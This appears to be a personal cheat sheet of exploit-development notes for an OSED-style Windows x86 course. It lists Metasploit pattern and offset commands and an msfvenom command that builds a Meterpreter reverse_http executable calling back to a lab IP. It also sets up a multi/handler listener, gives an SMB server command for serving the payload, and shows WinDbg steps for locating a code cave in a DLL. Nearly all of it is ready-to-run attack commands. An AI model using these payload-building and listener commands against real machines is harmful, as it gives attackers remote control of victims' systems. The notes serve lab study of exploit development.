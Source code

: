 # x86Win-OSED-Notes

# Pattern generation:
```
$ msf-pattern_create -l 800
$ msf-pattern_offset -l 800 -q 42306142
```

# met payload:
```
$ msfvenom -p windows/meterpreter/reverse_http HOST=192.168.45.178 LPORT=4343 -f exe -o met.exe

# Exploit after met.exe execution
$ msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
```

# smbserver:
```
sudo smbserver.py met /home/kali/ -smb2support
```

# Code cave search:
we can find the offset to the PE header by dumping the DWORD at offset 0x3C from the MZ header. Then, add 0x2C to the offset to find the offset to the code section
```
0:077> dd libeay32IBM019 + 3c L1
031f003c 00000108
0:077> dd libeay32IBM019 + 108 + 2c L1
031f0134 00001000
0:077> ? libeay32IBM019 + 1000
Evaluate expression: 52367360 = 031f1000
```
Use the !address command to collect information about the code section.
```
0:077> !address 031f1000
Usage: Image
Base Address: 031f1000
End Address: 03283000
Region Size: 00092000 ( 584.000 kB)
State: 00001000 MEM_COMMIT
Protect: 00000020 PAGE_EXECUTE_READ
Type: 01000000 MEM_IMAGE
Allocation Base: 031f0000
Allocation Protect: 00000080 PAGE_EXECUTE_WRITECOPY
```

